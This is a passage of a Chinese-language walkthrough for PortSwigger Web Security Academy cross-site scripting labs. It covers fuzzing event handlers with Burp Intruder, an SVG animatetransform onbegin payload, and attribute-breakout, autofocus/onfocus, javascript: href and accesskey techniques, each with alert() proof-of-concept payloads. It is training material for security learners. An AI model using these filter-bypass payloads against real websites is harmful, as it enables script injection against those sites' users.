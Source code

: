 
访问XSS 备忘单并单击“Copy events to clipboard”
[Cross-Site Scripting (XSS) Cheat Sheet - 2022 Edition | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

 在Burp Intruder的"有效负载"选项卡中，单击"清除"以删除以前的有效负载。然后单击"粘贴"将属性列表粘贴到有效负载列表中。单击"开始攻击"。

攻击完成后，查看结果。除了onbegin有效负载导致200响应之外，所有有效负载都导致HTTP 400响应。


<pre><code>payload：
"&gt;&lt;svg&gt;&lt;animatetransform onbegin=alert(1)&gt;

URL编码后：
%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E</code></pre>
<hr/>
 part4:
在浏览器中访问以下URL，确认已调用alert()函数且实验已解决：
（将YOUR-LAB-ID替换为自己实验室ID）
<pre><code>https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E

我的是：
https://0a7400d80446bb60c2e925bb00a80098.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E</code></pre>





---


---


> 
<h3>3、HTML标记属性中的XSS</h3>
1、当XSS上下文进入HTML标记属性值时，有时可以终止属性值，关闭标记，并引入一个新的标记。
<pre><code>例如：
"&gt;&lt;script&gt;alert(document.domain)&lt;/script&gt;</code></pre>
更常见的是尖括号被阻塞或编码，因此输入无法脱离它所在的标记。如果可以终止属性值，通常可以引入一个新属性来创建可编写脚本的上下文，如事件处理程序。
<pre><code>例如：
" autofocus onfocus=alert(document.domain) x="

上面的有效负载创建了一个onfocus事件，当元素接收到焦点时，该事件将执行JavaScript，并且还添加了autofocus属性，以尝试自动触发onfocus事件，而无需任何用户交互。最后，它添加了x=”，以适当地修复以下标记</code></pre>
涉及实验：
实验7：将XSS反射到带尖括号的HTML编码属性中
<hr/>
2、有时候XSS上下文是一种HTML标记属性，它本身可以创建一个脚本上下文。在这里可以执行JavaScript而无需终止属性值。
<pre><code>例如，如果XSS上下文位于href属性，则可以使用 javascript语言执行脚本的伪协议：
&lt;a href="javascript:alert(document.domain)"&gt;</code></pre>
涉及实验：<br/> 实验8：将XSS存储到锚中 href 带双引号的属性HTML编码
<hr/>
3、可能一些网站对尖括号进行编码，但仍然允许注入属性。有时即使在通常不会自动触发事件的标记（如规范标记）中，这些注入也是可能的。可以使用access keys和Chrome上的用户交互来利用此行为。
<pre>`access keys允许提供引用特定元素的键盘快捷键。该accesskey属性允许您定义一个字母，当该字母与其他键（这些键在不同的平台上会有所不同）一起按下时，将引发事件`</pre>
涉及实验：
实验20：规范链接标记中反射的XSS
